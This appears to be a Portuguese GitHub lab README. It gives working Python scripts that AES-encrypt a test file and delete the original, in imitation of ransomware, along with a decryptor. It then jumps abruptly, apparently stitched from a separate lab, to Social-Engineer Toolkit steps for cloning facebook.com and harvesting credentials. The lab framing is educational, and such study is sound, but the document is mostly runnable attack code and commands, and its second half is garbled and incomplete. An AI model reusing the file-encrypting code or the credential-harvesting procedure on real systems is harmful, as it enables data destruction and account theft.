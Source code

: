 ## Entendendo um Ransomware na prática com Python

**Ferramentas:**

- Ubuntu Linux
- Python 3

1. Crie um diretório para trabalhar em um ambiente controlado:

``` 
~/workspace$ mkdir encript-decript
~/workspace$ ls
```
> encript-decript

```
~/workspace$ cd encript-decript
```

2. Criando os arquivos:

```
~/workspace/encript-decript$ echo "Arquivo de texto não encriptado" > teste.txt
~/workspace/encript-decript$ nano encript.py
```

> código do arquivo encript.py:

```
import os
import pyaes

# Script para simular um Ransomware

# Função principal para encriptar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam
def encrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as original_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as encrypted_file:
                while True:
                    chunk = original_file.read(1024)  # Lê o arquivo em blocos de 1 KB
                    if not chunk:
                        break
                    encrypted_chunk = aes.encrypt(chunk)
                    encrypted_file.write(encrypted_chunk)
        
        # Remover o arquivo original após a criptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' criptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao criptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    original_file_name = "teste.txt"
    encrypted_file_name = original_file_name + ".ransomwaretroll"
    encryption_key = b"testeransomwares"

    encrypt_file(original_file_name, encrypted_file_name, encryption_key) # chamada da função aqui
```
>
```
~/workspace/encript-decript$ nano decript.py
```

> código do arquivo decript.py:

```
import os
import pyaes

# Script para simular o resgate de um arquivo encriptado por um Ransomware

# Função principal para descriptografar o arquivo de teste.txt
# Inclui no laboratório um tratamento de erro try-except, mas em um cenário real não estariam

def decrypt_file(input_filename, output_filename, key):
    try:
        with open(input_filename, "rb") as encrypted_file:
            aes = pyaes.AESModeOfOperationCTR(key)
            with open(output_filename, "wb") as decrypted_file:
                while True:
                    chunk = encrypted_file.read(1024)  # Lê o arquivo criptografado em blocos de 1 KB
                    if not chunk:
                        break
                    decrypted_chunk = aes.decrypt(chunk)
                    decrypted_file.write(decrypted_chunk)
        
        # Remover o arquivo criptografado após a descriptografia bem-sucedida
        os.remove(input_filename)
        
        print(f"Arquivo '{input_filename}' descriptografado com sucesso em '{output_filename}'")
    
    except Exception as e:
        print(f"Erro ao descriptografar o arquivo: {str(e)}")

# Como é um laboratório, inclui a estrutura if __name__=="__main__"
# Dessa forma o código só será executado diretamente.

if __name__ == "__main__":
    encrypted_file_name = "teste.txt.ransomwaretroll"
    decrypted_file_name = "teste.txt"
    decryption_key = b"testeransomwares"

    decrypt_file(encrypted_file_name, decrypted_file_name, decryption_key) # chamada da função aqui
```

3. Instalando bibilioteca **pyaes**:

```
~/workspace/encript-decript$ pip install pyaes
```
> Saída:

```
Defaulting to user installation because normal site-packages is not writeable
Collecting pyaes
  Downloading pyaes-1.6.1.tar.gz (28 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: pyaes
  Building wheel for pyaes (setup.py) ... done
  Created wheel for pyaes: filename=pyaes-1.6.1-py3-none-any.whl size=26363 sha256=4abc28ef17fd9d7040d63936f1c746ab30653a3c0b62c643b69bc5cc6308f0f6
  Stored in directory: /home/meuUsuario/.cache/pip/wheels/d6/84/5f/ea6aef85a93c7e1922486369874f4740a5642d261e09c59140
Successfully built pyaes
Installing collected packages: pyaes
Successfully installed pyaes-1.6.1
```

4. Executando os scripts:

``` 
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt
```
>
```
~/workspace/encript-decript$ python3 encript.py
```
> Saída:
```
Arquivo 'teste.txt' criptografado com sucesso em 'teste.txt.ransomwaretroll'
```
>
```
~/workspace/encript-decript$ ls
```
> Saída:
```
decript.py  encript.py  teste.txt.ransomwaretroll
```
>
```
~/workspace/encript-decript$ cat teste.txt.ransomwaretroll 
```
> Saída:
```
i�'|&`,N�x.Pw���/��,��i��
```
>
```
```






5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:

![Alt text](prints/passwd.png "Captura de tela do setoolkit")

![Alt text](prints/passwd1.png "Captura de tela do setoolkit")


## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf )